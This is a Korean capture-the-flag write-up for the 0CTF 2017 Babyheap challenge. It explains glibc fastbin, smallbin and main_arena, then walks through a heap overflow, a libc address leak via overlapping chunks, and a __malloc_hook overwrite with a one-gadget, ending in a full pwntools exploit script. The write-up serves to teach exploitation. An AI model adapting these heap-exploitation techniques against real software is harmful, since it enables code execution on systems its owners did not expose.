




# 0CTF 2017 Babyheap Write-up

### 필요 개념

- fastbin
- smallbin
- main_arena


##### Fastbin

힙 영역에 16바이트 이상 80바이트 미만 크기의 데이터가 할당될 때 그 데이터를 fastbin을 통해 관리한다.

fd 값을 갖는데, 2개 이상의 chunk가 해제되면 마지막에 해제된 chunk의 fd에는 이전에 해제된 chunk의 주소가 적힌다.(싱글 링크드 리스트)


##### Smallbin

128바이트 이상, 512바이트 미만 크기의 데이터가 힙에 할당될 때 데이터를 Smallbin을 통해 관리한다.

fd, bk 값을 갖는데 2개이상의 chunk가 할당될 때 fd, bk가 부여된다.(더블 링크드 리스트) 첫번째 chunk의 경우 **fd값이 main_arena 내부의 주솟값**이다.


##### main_arena

힙에 대한 정보를 갖고 있다. (fastbin, smallbin 등 bins에 대한 정보 포함)

main_arena의 주솟값을 통해 **libc의 base 주소**를 구할 수 있다.


### 환경

- 64비트 실행파일




### 문제 파악



 Heap 영역에 데이터를 할당/초기화/해제하고 할당된 데이터를 보여주는 프로그램입니다.


### 취약점

- Heap based Overflow

  

  

위를 보면 알 수 있듯이 index가 0인 chunk에 데이터를 작성할 때 사이즈가 초과하도록 데이터를 넣어주면 다음 index의 chunk영역까지 overwrite할 수 있다. 이를 통해 **다음 chunk의 사이즈, 내용, fd 등의 값을 조작**할 수 있다.


### Exploit 시나리오

##### Leak

1. 32바이트 크기의 데이터를 4개를 할당한다.(idx : 0,1,2,3)
   - idx0은 idx1의 값을, idx3은 idx4의 값을 overwrite하는 데에 사용
2. 128바이트 크기의 데이터를 1개를 할당한다. (idx : 4)
3. idx2, idx1을 free한다.
   - idx1의 fd에는 idx2의 주소가 적힌다.
   - 다음에 32바이트 크기의 데이터를 할당하면 idx1에 할당되는데 데이터가 할당되기 전에 idx1의 fd값을 읽어와 fastbin에 넣는다. 그 후, 또 다시 32바이트 크기의 데이터를 할당하면 fastbin에 있는 값을 읽어와 그 주소에 데이터를 할당한다.
4. idx0을 통해 idx1의 fd값을 idx4의 주솟값으로 조작한다.
5. idx3를 통해 idx4의 크기를 32바이트로 조작한다.
   - bin에서 가져온 값에 데이터를 **할당하기 전엔 해당 chunk의 크기를 확인**한다
6. 32바이트 크기의 데이터를 할당한다.
   - 이 chunk의 idx는 1이며 **현재 fastbin에는 idx4의 주솟값**이 적혀있다.
7. 32바이트 크기의 데이터를 할당한다.
   - 이 chunk의 idx는 2이며 idx4에 할당된다. 즉, idx2와 idx4가 겹쳐져 있는 상태이다.
8. idx4에 fd와 bk 값을 할당시켜주기 위해 128바이트 크기의 데이터를 할당한다.
9. idx3를 통해 idx4의 크기를 다시 128바이트로 조작한다.
10. idx4를 해제한다.
11. idx2의 값을 확인하면 idx4의 fd,bk 값을 확인할 수 있고 이 값은 main_arena의 주솟값이다.


##### Exploit

- RELRO가 걸려 있어서 got를 덮어쓰는 것은 불가능하다.
- malloc_hook이라는 것이 있는데 alloc 함수를 call하면 이 영역에 적혀있는 주소도 call한다.
- malloc_hook을 system 함수의 주소로 덮어씌움으로써 Exploit이 가능하다.


##### Code

```python
from pwn import *

heapbase = 0x555555757000
p = process("./babyheap")

dataSize1 = 32
dataSize2 = 128

def alloc(size):
	p.recv()
        p.sendline('1')         
        p.recv()
        p.sendline(str(size))

def fill(idx, size, content):
	p.recv()
	p.sendline('2')
	p.recv()
	p.sendline(str(idx))
        p.recv()
        p.sendline(str(size))
        p.recv()
        p.sendline(str(content))

def free(idx):
	p.recv()
	p.sendline('3')
	p.recv()
	p.sendline(str(idx))

def show(idx):
	p.recv()
	p.sendline('4')
	p.recv()
	p.sendline(str(idx))
	p.recvline()
	return p.recvline()

alloc(dataSize1)		# idx0(fastbin)
alloc(dataSize1)		# idx1(fastbin)
alloc(dataSize1)		# idx2(fastbin)
alloc(dataSize1)		# idx3(fastbin)
alloc(dataSize2)		# idx4(smallbin)

payload="\x00"*dataSize1 + p64(0) + p64(dataSize1+17)	# control the size of idx4
fill(3, len(payload), payload)

free(2)
free(1)

payload="\x00"*dataSize1 + p64(0) + p64(dataSize1+17) + p8((dataSize1+16)*4)
fill(0, len(payload), payload)
alloc(dataSize1)		# idx1
alloc(dataSize1)		# idx2 == idx4
alloc(dataSize2)		# make fd,bk in idx4

payload="\x00"*dataSize1 + p64(0) + p64(dataSize2+17)   # control the size of idx4
fill(3, len(payload), payload)

free(4)
leaked = show(2)

libcbase = u64(leaked[0:8]) - 0x3c4b78		# offset in local environment
oneGadget = libcbase + 0x4526a
addr = libcbase + 0x3c4b10 - 0x23

print "libc base : " + str(hex(libcbase))

alloc(0x60)			# idx4
free(4)				# clear

payload = p64(addr)
fill(2, len(payload), payload)

alloc(0x60)			# idx5
alloc(0x60)			# idx6, to overwrite malloc_hook

payload = "\x00"*3 + p64(0)*2 + p64(oneGadget)
fill(6, len(payload), payload)

alloc(32)
p.interactive()
```

